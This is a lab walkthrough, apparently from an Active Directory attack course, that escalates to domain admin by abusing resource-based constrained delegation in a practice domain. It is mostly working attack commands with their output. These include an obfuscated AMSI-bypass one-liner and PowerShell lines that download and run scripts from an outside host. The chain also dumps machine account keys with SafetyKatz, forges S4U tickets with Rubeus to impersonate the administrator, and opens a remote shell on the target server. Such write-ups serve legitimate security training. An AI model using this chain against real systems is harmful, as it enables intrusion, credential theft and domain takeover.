

# Learning Objective 17 (Domain Privilege Escalation | Resource-based Constrained Delegation)

## Tasks

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

---

## Attack Path Steps

- **Find a Target Server where we have Write Permissions and Access to it**
- **Set RBCD on the Target Server for the Student Machine**
- **Extract Student Machine TGS Encryption Key Hash**
- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**
- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

---

## Solution

1. **Escalate to DA privileges abusing the resource-based constrained delegation**

- **Find a Target Server where we have Write Permissions and Access to it**

Let's use PowerView from a PowerShell session started using Invisi-Shell to enumerate write permissions for a user that we have compromised.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

After trying from multiple users or using BloodHound we would know that the user `ciadmin` has write permissions on the computer object of `dcorp-mgmt`.

`Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}`:
```
ObjectDN                : CN=DCORP-MGMT🖥️,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ListChildren, ReadProperty, GenericWrite📌
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-719815819-3726368948-3917688648-1121
IdentityReferenceName   : ciadmin👤
IdentityReferenceDomain : dollarcorp.moneycorp.local
IdentityReferenceDN     : CN=ci admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
IdentityReferenceClass  : user
```

Recall that we compromised `ciadmin` from `dcorp-ci`. We can either use the reverse shell we have on `dcorp-ci` as `ciadmin` (see *Learning Objective 05*) or extract the credentials from `dcorp-ci`.

Let's use the reverse shell that we have and load PowerView there.


`iex (iwr http://172.16.100.22/sbloggingbypass.txt -UseBasicParsing)`

Use the below command to bypass AMSI.

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


`iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.22/PowerView.ps1'))`

- **Set RBCD on the Target Server for the Student Machine**

`Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std422$' -Verbose`

Check if RBCD is set correctly.

`Get-DomainRBCD`:
```
[SNIP]

SourceName                 : DCORP-MGMT$🖥️
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD422$📌
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-20687
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD422📌,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local

[SNIP]
```

- **Extract Student Machine TGS Encryption Key Hash**

Get AES keys of your student VM (as we configured RBCD for it above).




`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-STD422$🖥️
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/16/2025 8:02:30 AM
SID               : S-1-5-18

         * Username : dcorp-std422$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe🔑
           rc4_hmac_nt       2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old      2e70361e28e3c071f40f183b001fc3b0
           rc4_md4           2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_nt_exp   2e70361e28e3c071f40f183b001fc3b0
           rc4_hmac_old_exp  2e70361e28e3c071f40f183b001fc3b0

[SNIP]
```

- **Forge an S4U TGS using the Student Machine TGS Encryption Key Hash for Privilege Escalation**

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:dcorp-std422$ /aes256:52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 52b7cacc70a07595ebea80159deca504f201eca606f7bc7c29ace09ed9ff36fe
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\dcorp-std422$'
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'dcorp-std422$@DOLLARCORP.MONEYCORP.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2self request to 172.16.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator'🎭 to 'dcorp-std422$🖥️@DOLLARCORP.MONEYCORP.LOCAL'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'administrator'🎭 to target SPN 'http📌/dcorp-mgmt'🖥️
[*] Building S4U2proxy request for service: 'http/dcorp-mgmt'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2proxy request to domain controller 172.16.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'http/dcorp-mgmt':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38bfd7

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: http📌/dcorp-mgmt🖥️ @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/17/2025 4:58:42 (local)
        End Time:   2/17/2025 14:58:41 (local)
        Renew Time: 2/24/2025 4:58:41 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain DA Access to the Target Server**

`winrs -r:dcorp-mgmt cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀


`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=DCORP-MGMT🖥️
```
🚩

---
---
